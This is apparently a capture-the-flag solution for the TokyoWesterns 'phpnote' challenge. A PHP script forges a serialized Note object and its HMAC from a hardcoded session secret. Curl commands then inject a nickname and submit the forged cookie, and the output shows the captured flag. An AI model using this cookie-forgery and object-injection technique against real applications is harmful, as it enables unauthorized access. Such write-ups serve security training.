 ```php
function verify($data, $hmac) {
    $secret = $_SESSION['secret'];
    if (empty($secret)) return false;
    return hash_equals(hash_hmac('sha256', $data, $secret), $hmac);
}

function hmac($data) {
    $secret = $_SESSION['secret'];
    if (empty($data) || empty($secret)) return false;
    return hash_hmac('sha256', $data, $secret);
}

function gen_secret($seed) {
    return "2532bd172578d19923e5348420e02320";
}

// create session
$_SESSION = Array();
$_SESSION['secret'] = gen_secret('');
$_SESSION['realname'] = "stypr stypr";
$_SESSION['nickname'] = "";

// generate note
$note = new Note(true);
$note->addnote("work", "work");
$data = base64_encode(serialize($note));

/* verify
//echo "Data: ".(string)$data."\n";
//echo "HMAC: ".(string)hmac($data)."\n";
//echo "-----";
//var_dump(verify((string)$data, (string)hmac($data)));
*/
?>
curl -s 'http://phpnote.chal.ctf.westerns.tokyo/?action=logout' -H 'Cookie: PHPSESSID=468b674d8d6139373a064b832efdf47a;' --insecure
curl -s 'http://phpnote.chal.ctf.westerns.tokyo/?action=login' -H 'Cookie: PHPSESSID=468b674d8d6139373a064b832efdf47a;' --data 'nickname=</body>&realname=stypr+stypr' --compressed --insecure
curl -s "http://phpnote.chal.ctf.westerns.tokyo/?action=getflag" -H "Cookie: PHPSESSID=468b674d8d6139373a064b832efdf47a; note=<?php echo $data; ?>; hmac=<?php echo hmac($data); ?>;"

```

```bash
$ php flag.php | sh | grep "TWCTF"
TWCTF{h0pefully_I_haven't_made_a_m1stake_again}<!doctype html>

```

Flag: `TWCTF{h0pefully_I_haven't_made_a_m1stake_again}`
